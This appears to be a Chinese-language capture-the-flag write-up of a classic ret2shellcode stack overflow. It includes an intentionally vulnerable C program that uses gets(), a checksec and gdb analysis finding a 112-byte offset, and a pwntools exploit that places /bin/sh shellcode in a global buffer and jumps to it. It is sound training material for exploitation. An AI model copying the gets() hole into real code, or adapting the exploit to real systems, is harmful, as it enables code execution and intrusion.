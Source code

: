 ```yaml
---
title: ret2shellcode
updated: 2023-05-16 09:47:14Z
created: 2022-10-17 02:42:43Z
---
```


```c
#include <stdio.h>
#include <string.h>

char buf2[100];

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("No system for you this time !!!\n");
    gets(buf);
    strncpy(buf2, buf, 100);
    printf("bye bye ~");

    return 0;
}
```

检查保护

```sh
└─# checksec ret2shellcode 
[*] '/root/pwn/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

查看代码段

```sh
└─# objdump -t -j .text ret2shellcode 

ret2shellcode:     file format elf32-i386

SYMBOL TABLE:
08048430 l    d  .text	00000000              .text
08048470 l     F .text	00000000              deregister_tm_clones
080484a0 l     F .text	00000000              register_tm_clones
080484e0 l     F .text	00000000              __do_global_dtors_aux
08048500 l     F .text	00000000              frame_dummy
08048640 g     F .text	00000002              __libc_csu_fini
08048460 g     F .text	00000004              .hidden __x86.get_pc_thunk.bx
080485d0 g     F .text	00000061              __libc_csu_init
08048430 g     F .text	00000000              _start
0804852d g     F .text	0000009a              main
```

查看分析其源码

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/faad731de44f8d04102ba8a76ce645f7.png" alt="faad731de44f8d04102ba8a76ce645f7.png" width="979" height="503" class="jop-noMdConv">

可以看到，程序会获取输入的buf变量值，并将其复制至buf2变量中

对buf2下断点可以看到buf2的地址为0x804a080

```sh
gdb-peda$ b *buf2
Breakpoint 2 at 0x804a080
```

查看buf2数据段是否存在读写权限

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/a4d57206454dffe9c7c22714dedfb98b.png" alt="a4d57206454dffe9c7c22714dedfb98b.png" width="923" height="491" class="jop-noMdConv">

接下来通过动态调试判断buf变量偏移距离

![54bdd41c824ab74a33f7914a7210b30e.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/54bdd41c824ab74a33f7914a7210b30e.png)![94580980aa451eb4eded04968680b699.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/94580980aa451eb4eded04968680b699.png)

可以看到无效地址为0x41384141，然后使用pattern_offset判断具体偏移距离为112

```sh
gdb-peda$ pattern_offset 0x41384141
1094205761 found at offset: 112
```

然后我们生成shellcode，可以使用pwntools的shellcraft，如下

```python
┌──(root㉿kali)-[~/pwn]
└─# python
Python 3.8.0 (default, Jul 12 2022, 11:34:11) 
[GCC 11.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> shellcode = asm(shellcraft.sh())
>>> print(shellcode)
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
>>> len(shellcode)
44
>>> 112-44
68
>>>
```

从上面可以看到，shellcode的长度为44，那么剩下需要填充的长度为68,一共112可以覆盖ebp,然后修改返回值为shellcode所在buf2的地址

exp如下

```python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode + b'a'*68 + p32(buf2_addr))
sh.interactive()
```